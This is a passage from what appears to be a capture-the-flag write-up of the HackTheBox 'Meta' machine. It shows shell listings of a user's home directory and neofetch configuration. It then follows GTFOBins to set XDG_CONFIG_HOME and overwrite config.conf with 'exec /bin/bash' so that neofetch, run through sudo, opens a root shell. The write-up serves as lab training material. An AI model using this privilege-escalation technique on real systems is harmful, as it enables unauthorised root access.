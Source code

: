 **In `thomas`'s home directory, we found the `.config` directory:**
```shell
thomas@meta:~$ ls -lah
total 36K
drwxr-xr-x 5 thomas thomas 4.0K Aug 16 05:35 .
drwxr-xr-x 3 root   root   4.0K Aug 29  2021 ..
lrwxrwxrwx 1 root   root      9 Aug 29  2021 .bash_history -> /dev/null
-rw-r--r-- 1 thomas thomas  220 Aug 29  2021 .bash_logout
-rw-r--r-- 1 thomas thomas 3.5K Aug 29  2021 .bashrc
drwxr-xr-x 3 thomas thomas 4.0K Aug 30  2021 .config
drwxr-xr-x 3 thomas thomas 4.0K Aug 16 05:35 .local
-rw-r--r-- 1 thomas thomas  807 Aug 29  2021 .profile
drwx------ 2 thomas thomas 4.0K Jan  4  2022 .ssh
-rw-r----- 1 root   thomas   33 Aug 16 02:49 user.txt
```

**Inside there, there's a neofetch's configuration file:**
```shell
thomas@meta:~$ ls -lah .config/neofetch/
total 24K
drwxr-xr-x 2 thomas thomas 4.0K Aug 16 05:36 .
drwxr-xr-x 3 thomas thomas 4.0K Aug 30  2021 ..
-rw-r--r-- 1 thomas thomas  15K Aug 30  2021 config.conf
```

**Then, according to [GTFOBins](https://gtfobins.github.io/gtfobins/neofetch/#sudo), we can escalate our privilege escalation using the `--config` option:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Meta/images/Pasted%20image%2020230816175031.png)

Hmm... **Maybe we can export the `XDG_CONFIG_HOME` environment varible, and execute any commands as root via our evil neofecth's configuration file??**

- Export `XDG_CONFIG_HOME` environment varible:

```shell
thomas@meta:~$ export XDG_CONFIG_HOME="$HOME/.config"
```

- Overwrite the original configuration file:

```shell
thomas@meta:~$ echo 'exec /bin/bash' > .config/neofetch/config.conf 
```
